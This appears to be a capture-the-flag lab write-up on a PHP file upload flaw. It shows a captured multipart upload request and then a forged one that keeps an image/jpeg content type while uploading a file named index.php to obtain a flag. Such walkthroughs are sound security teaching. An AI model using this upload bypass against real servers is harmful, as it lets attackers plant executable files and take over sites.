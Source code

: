 ## UPLOAD IMAGE PHP

This vulnerability revolves around uploading a file that you are no supossed to be able to upload.
</br>
If you upload an image and inspect element, you can read the request you've sent</br>
<img src="./images/1.png" width=500>
```
POST /index.php?page=upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 47292
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySsLntzim2PBLXcHo
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Host: 10.13.8.6:2222
Origin: http://10.13.8.6:2222
Referer: http://10.13.8.6:2222/index.php?page=upload
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
```

And if you inspect its payload you will see how the image and the form data are uploaded

```
------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="uploaded"; filename="51f3O5BDZ9L.jpeg"
Content-Type: image/jpeg


------WebKitFormBoundarySsLntzim2PBLXcHo
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundarySsLntzim2PBLXcHo--
```

This is sent in the body part of the request, so you should be able to see the photo in the format of a monumental string. As you can see there is no random string anywhere, that because to simplify the reading of this or some oder pedagogical reason the body doesnt have the string. But it should be right bellow Content-Type: image/jpeg</br>

Usually when you can upload files to a server, the admin of the server just wants certain types of files to be able to be uploaded but if you dont trust the user will just try to upload files of that type you are up for some trouble. As users can send malicious files, overwrite .php files, and so on.

We can actually do this by sending the request ourselves and writting the body manually. If we keep the Content-type: image/jpeg header and send a .php file the server allows that to be uploaded. We can do that by using Curl or thunderclient/postman. The body should look something like this:

```
------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="uploaded"; filename="index.php"
Content-Type: image/jpeg


------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryCASCOSVACA1--
```

And the whole request should look something like this:
```
POST /index.php?page=upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCASCOSVACA1
Content-Length: 260

------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="uploaded"; filename="index.php"
Content-Type: image/jpeg


------WebKitFormBoundaryCASCOSVACA1
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryCASCOSVACA1--
```
</br>
Once this request is send you can see that the html is displaying a flag
<img src="./images/2.png" width=800>

